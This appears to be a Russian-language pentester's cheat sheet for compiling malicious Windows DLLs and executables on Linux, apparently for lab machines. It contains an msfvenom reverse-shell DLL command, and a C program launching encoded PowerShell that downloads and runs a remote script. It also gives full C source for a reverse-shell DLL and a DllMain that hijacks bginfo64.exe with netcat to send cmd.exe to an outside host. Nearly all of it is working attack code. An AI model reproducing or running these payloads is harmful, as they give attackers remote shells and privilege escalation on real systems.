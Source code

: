 # c#c++
 
regsvr32.exe ReverseShellDLL.dll (запуск dll)
 
-static     компиляция со всеми билиотеками во внутрь

# Запуск DLL из msvenom

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
    rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll

# Cоздание dll на с++

sudo apt install mingw-w64

x86_64-w64-mingw32-gcc-win32 shell.c -shared -lws2_32 -o VerifyThemeVersion.dll

x86_64-w64-mingw32-gcc xll.c -shared -o test.xll

# сщздание exe на с++
	sudo apt update && sudo apt install g++ -y

	g++ --version
	x86_64-w64-mingw32-g++ main.cpp -o shell.exe
	C++	g++	g++ file.cpp -o file	./file

python3 -m pefile exports VerifyThemeVersion.dll (скажет что за функции находятся внутри)

rundll32 shell,0

# самый простой exe shell 
 
	#include <windows.h>

	int main() {
	    WinExec("powershell -enc 		SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIANwA6ADgAMAAwADAALwBzAGgAZQBsAGwAXwA5ADAAMAAxAC4AcABzADEAJwApAAoA", 1);
		}



----------------------
    #include <winsock2.h>
    #include <windows.h>
    #include <io.h>
    #include <process.h>
    #include <sys/types.h>
    #include <stdio.h>
    #include <stdlib.h>
     #include <string.h>



static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {

        WSADATA wsaData;
        if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
                write(2, "[ERROR] WSASturtup failed.\n", 27);
                return (1);
        }

        int port = CLIENT_PORT;
        struct sockaddr_in sa;
        SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        sa.sin_family = AF_INET;
        sa.sin_port = htons(port);
        sa.sin_addr.s_addr = inet_addr(CLIENT_IP);


        if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
                write(2, "[ERROR] connect failed.\n", 24);
                return (1);
        }


        STARTUPINFO sinfo;
        memset(&sinfo, 0, sizeof(sinfo));
        sinfo.cb = sizeof(sinfo);
        sinfo.dwFlags = (STARTF_USESTDHANDLES);
        sinfo.hStdInput = (HANDLE)sockt;
        sinfo.hStdOutput = (HANDLE)sockt;
        sinfo.hStdError = (HANDLE)sockt;
        PROCESS_INFORMATION pinfo;
        CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

        return (0);
}

void DllMain() {
        ReverseShell("192.168.50.123", 9001);
//        ReverseShell("10.10.14.20", 9001);
}
-----------------------------------------Вызывалка----------------------

x86_64-w64-mingw32-gcc-win32 test.c  -o test.exe
    --------------------------------
#include <windows.h>
#include <stdio.h>

int main( void )
{
        HINSTANCE hDll;

        // Load Dll
        hDll = LoadLibrary(TEXT("max.dll"));

        // If Dll Was Loaded
        if (hDll != NULL){
                printf("DLL Found\n");
                } else {
                printf("DLL Not Found");
                }
        return 0;
}

----------------------------------------------------ДЛЛКА

x86_64-w64-mingw32-gcc-win32 max.c  -o max.dll -shared

   ------------------------------------------

#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
        switch (dwReason)
        {
         case DLL_PROCESS_ATTACH:
          MessageBox(NULL,
                        "dsfvsdfsd",
                        "dsvsdvs",
                        MB_ICONERROR | MB_OK);
        break;
        }
return TRUE;
}


# Простая DLL на С

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)

{
  switch (dwReason)
{
case DLL_PROCESS_ATTACH:
        system("cmd.exe /c whoami /all > c:\\users\\public\\pleasesub.txt");

        system("cmd.exe /c takeown /F c:\\share\\bginfo64.exe");
        system("cmd.exe /c cacls c:\\share\\bginfo64.exe  /E /G ginawild:F");
        system("cmd.exe /c icacls c:\\share\\bginfo64.exe >> c:\\users\\public\\pleasesub.txt");

        system ("cmd.exe /c copy c:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe c:\\share\\bginfo64.exe");

        system ("cmd.exe /c copy c:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe c:\\share\\nc64.exe");

        system("cmd.exe /c c:\\share\\bginfo64.exe -e cmd.exe 10.10.14.37 9002");
        system("cmd.exe /c ping 10.10.14.37");

        break;
}
return TRUE;
}

# Компиляция C из линукс
	x86_64-w64-mingw32-gcc-win32 script.c -o 7-zip64.dll -shared
	gcc file.c -o file.exe	./file.exe

-----------------------------------------
# Компиляция C# из линукс

	sudo apt install mono-devel

	mcs -target:library -out:Shell.dll Shell.cs
	mcs file.cs -out:file.exe	

	и активация webdav https://gist.githubusercontent.com/klezVirus/af004842a73779e1d03d47e041115797/raw/29747c92ca04c844223d1ef6c1463d7e34e271ee/EtwStartWebClient.cs
	mcs startweb.cs /unsafe -out:start.exe

